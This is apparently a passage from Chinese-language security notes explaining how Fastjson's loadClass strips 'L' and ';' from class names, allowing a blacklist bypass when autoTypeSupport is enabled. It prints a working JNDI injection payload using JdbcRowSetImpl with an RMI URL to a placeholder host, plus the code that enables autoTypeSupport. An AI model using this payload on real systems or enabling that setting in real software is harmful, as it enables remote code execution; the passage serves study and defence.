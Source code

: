 此处的loadclass方法如下：**若类名以L开头；结尾，则会把这两个字符去掉并加载类**。

> 至于为什么会有这种奇怪的处理，`L `和` ; `这一对字符其实是 JVM 字节码中用来表示类名的

![image-20230619161609186](img/image-20230619161609186.png)

**绕过方式**：所以在autotypesupport开启时，我们可以构造如下payload来bypass

```javascript
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://ip:1099","autoCommit":true}
```

如何开启autotypesupport？只需在json被解析前加入如下代码即可

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

![image-20230619162339270](img/image-20230619162339270.png)

